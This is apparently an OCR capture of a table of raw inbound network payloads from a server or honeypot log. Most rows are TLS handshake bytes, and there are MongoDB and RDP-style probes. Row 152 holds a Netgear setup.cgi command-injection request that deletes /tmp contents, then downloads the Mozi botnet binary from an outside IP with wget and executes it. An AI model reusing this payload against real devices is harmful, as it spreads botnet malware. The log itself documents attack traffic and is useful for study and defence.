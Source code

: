| 143 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03yR\xCD\xFDL4\xFFo\xD0\xBA\x87\x06\xDB\x81<I\xDEk\x7F\xF8\x84\xFE\xBF\xFA\xAB\xCE\xF1SWA:m\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                      |
| 144 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xB9\xA8\xB0|h\x8C\x04[\x1F\x8E                                                                                                                                                                                                                                                                                                                                                  |
| 145 |                     1 | \x16\x03\x01\x01\x02\x01\x00\x00\xFE\x03\x03\xC9\x86,\x98\xE1\xBCr\xA0\x90r\xC8j\x97v\xB1\xD7P\xEE\x9B\x97\x13J:\xE1\x15 \x0B|\xB0\x995\xB8 \xADnM\xC8{\xF4\x99\x05\x97\xCF\xB5\x00j\xDBq\xE0X\xC3\xDF\x10\xA8fSV\x10\xAF\x90!\x1F\x8D\xE8)\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                               |
| 146 |                     1 | \x16\x03\x01\x01\x02\x01\x00\x00\xFE\x03\x03\x02\xD1[\x18\xA5Uv\xCFH\xEA\x09-=\xFC@\x82\xAB>\x9F\xDCTv \xAB\xABI\xD3Q6^\xCC\xC1 O\xA7\x99U\x15P\xC5X\x9Fk\x08\x9C\x89\x00\xAD\xB8\x8F\x1A\x97\x14\x8B\xA5\x9EI\xAB\xF0\xC1\x01t*7K\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                        |
| 147 |                     1 | \x16\x03\x01\x00\xCA\x01\x00\x00\xC6\x03\x03{\x1E\xB7\x82`\x93b\x1F\xB5a\xBA&\xAA%M\x88\xE8:f\xCD\x06\xCCc\x9E\x05\xB9\xCA\xD7K\xB9*)\x00\x00h\xCC\x14\xCC\x13\xC0/\xC0+\xC00\xC0,\xC0\x11\xC0\x07\xC0'\xC0#\xC0\x13\xC0\x09\xC0(\xC0$\xC0\x14\xC0                                                                                                                                                                     |
| 148 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xA3\xEE\x0B$\x9B\xA4\xE3M\xF6\x069\x1C\x1B}\x15\xF8.\xD1T\xF3\xBC;R\x7F\xC2\x14\x18\x7F\xE2\xC5I\xB7 \xBCQ\xBBN]5\xE64\x04.\xE7\xDE\x9D.\xC3\xE0\xD26(\x89Q\xD9\xFC-\xA5\xFF\x08\xB3%                                                                                                                                                                                     |
| 149 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xEBLl\xE1&\xB3`\xD2\x00\xA9bcs\xD0\xC2\x8B\xD2\xCF\x9B`\xDC\xFB\x0FQ\xDC\x18h)+\x84.\xAC\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                      |
| 150 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x85x\x22}U\x14\xADI;,\xF5\xFD\x08\x13p\xD6\x1A\x1Dt!\x7F\xCC\xFC\xEBY\xC25\x0F\xB6\xED\xF3\xAA\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                |
| 151 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x98\xADW\xC1m\xB2u\xC2 \xE1\x1C4\xC9\xE2\xE7U\xEA\x18\x9D\x93# oj\x1F\x94k-Wws\x9E\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                            |
| 152 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://115.48.222.151:36560/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                          |
| 153 |                     1 | :\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xD4\x07\x00\x00\x00\x00\x00\x00admin.$cmd\x00\x00\x00\x00\x00\x01\x00\x00\x00\x13\x00\x00\x00\x10isMaster\x00\x01\x00\x00\x00\x00                                                                                                                                                                                                                                        |
| 154 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03u\x1D\xA8\x806                                                                                                                                                                                                                                                                                                                                                                   |
| 155 |                     1 | \x03\x00\x00\x13\x0E\xE0\x00\x00\x00\x00\x00\x01\x00\x08\x00\x03\x00\x00\x00                                                                                                                                                                                                                                                                                                                                           |
